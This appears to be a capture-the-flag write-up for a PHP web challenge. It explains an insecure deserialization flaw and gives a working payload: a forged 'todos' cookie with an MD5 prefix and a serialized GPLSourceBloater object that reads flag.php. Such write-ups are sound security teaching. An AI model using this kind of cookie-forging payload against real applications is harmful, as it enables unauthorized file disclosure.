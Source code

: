 Name
----

Web: Exotic Attacks: TODO App

Description
-----------

Get the flag from: [url]141.85.224.101:8002/[/url].

Score: 150

Vulnerability
-------------

PHP Object Injection / PHP Insecure Object Deserialization

Exploit
-------

If you click on the `Open source license` bottom link, you will see the license page and, at the end, the source code to help you craft the payload.
You need to set the right value for the `todos` cookie.

The first 32 bytes of the cookie value should be the md5 hash of the rest of it.

The rest should be serialized data of a `GPLSourceBloater` object, which you can notice has an attribute called `source` that represents the name of the file to be rendered. We will set it to `flag.php` to get the flag.

So we have to make a request with this Cookie:
```
todos = encodeURIComponent(
			'760463360e4919ca238d1566fc26661f'+
			'a:1:{i:0;O:16:"GPLSourceBloater":1:{s:6:"source";s:8:"flag.php";}}'
		)
```

You can use the `encodeURIComponent` JavaScript function:
```
Cookie: todos=760463360e4919ca238d1566fc26661fa%3A1%3A%7Bi%3A0%3BO%3A16%3A%22GPLSourceBloater%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D
```
